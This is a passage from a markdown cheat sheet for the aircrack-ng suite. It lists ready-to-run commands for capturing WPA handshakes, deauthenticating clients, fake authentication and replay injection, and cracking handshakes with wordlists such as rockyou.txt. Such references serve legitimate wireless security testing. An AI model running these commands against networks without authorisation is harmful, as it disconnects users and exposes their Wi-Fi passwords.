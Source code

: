 ## 3) airodump-ng — scanning & capture
```bash
# Scan all nearby APs and clients
sudo airodump-ng wlan0mon

# Focused capture: lock to channel, BSSID; write files (pcap/cap/csv)
sudo airodump-ng --bssid <AP_BSSID> -c <channel> -w /path/to/capture wlan0mon

# Save multiple formats (pcap + csv)
sudo airodump-ng --output-format pcap,csv -w capture wlan0mon

# Rotate/write every N seconds (useful for long captures)
sudo airodump-ng --write-interval 5 --bssid <BSSID> -c <CH> -w capture wlan0mon
```
Watch for the top-right of airodump-ng — it shows "WPA handshake: <BSSID>" when handshake captured.

---

## 4) aireplay-ng — injection / replay attacks
```bash
# Deauthenticate all clients (count 5)
sudo aireplay-ng --deauth 5 -a <AP_BSSID> wlan0mon

# Deauth a specific client to force reconnect
sudo aireplay-ng --deauth 5 -a <AP_BSSID> -c <CLIENT_MAC> wlan0mon

# Fake authentication (useful for WEP or to stay associated)
sudo aireplay-ng --fakeauth 10 -a <AP_BSSID> -h <YOUR_MAC> wlan0mon

# Interactive replay mode
sudo aireplay-ng --interactive wlan0mon
```
Notes:
- `--deauth 0` means continuous until stopped.
- Deauth is noisy — will disconnect clients; use responsibly.

---

## 5) aircrack-ng — cracking captured handshakes or WEP IVs
```bash
# Crack WPA/WPA2 handshake using wordlist
sudo aircrack-ng -w /path/to/wordlist.txt -b <AP_BSSID> capture-01.cap

# Convert capture for WEP IV processing (J output)
sudo aircrack-ng -J output capture-01.cap
```
Tips:
- Use curated wordlists (rockyou.txt, SecLists) and rule-based generation or Hashcat for GPU speed.
- For very large cracking tasks, convert captures to Hashcat formats (see hcxtools below).

---
